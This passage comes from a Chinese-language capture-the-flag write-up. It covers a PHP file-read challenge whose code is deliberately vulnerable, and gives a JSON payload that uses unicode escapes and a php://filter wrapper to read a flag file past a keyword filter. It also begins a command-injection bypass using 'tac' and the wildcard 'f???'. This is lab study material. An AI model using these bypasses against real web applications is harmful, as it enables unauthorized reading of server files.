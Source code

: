 	}
	
	$body = file_get_contents('php://input');
	$json = json_decode($body, true);
	
	if (is_valid($body) && isset($json) && isset($json['page'])) {
	  $page = $json['page'];
	  $content = file_get_contents($page);
	  if (!$content || !is_valid($content)) {
	    $content = "<p>not found</p>\n";
	  }
	} else {
	  $content = '<p>invalid request</p>';
	}
	
	// no data exfiltration!!!
	$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
	echo json_encode(['content' => $content]); 
	```



以json的格式post数据，读取flag文件        

json中可以用utf-16编码       

php---->`\u0070\u0068\u0070`        
flag----->`\u0066\u006C\u0061\u0067`       

伪协议读取即可        

payload：`{ "page" : "\u0070\u0068\u0070://filter/read=convert.Base64-encode/resource=/\u0066\u006c\u0061\u0067"}`



![01.png](https://ae04.alicdn.com/kf/Uc0dae37fec114059ba662aef6c3440a4s.jpg)


***************
****************
![我是伞兵](https://ae03.alicdn.com/kf/U077aee7bf14d4989834bd3d5c060ab95X.jpg)    

### EasyBypass         


代码审计     




![01.png](https://ae04.alicdn.com/kf/U81afd0c96ea04194babb7ddac8d9d8acR.jpg)     

应该注意到comm1中没有过滤`tac`     

flag被过，可以用通配符`f???`      

一开始觉得用`;`把file毙了就行了，但我忽略了     

	$comm1 = '"' . $comm1 . '"';
	$comm2 = '"' . $comm2 . '"';
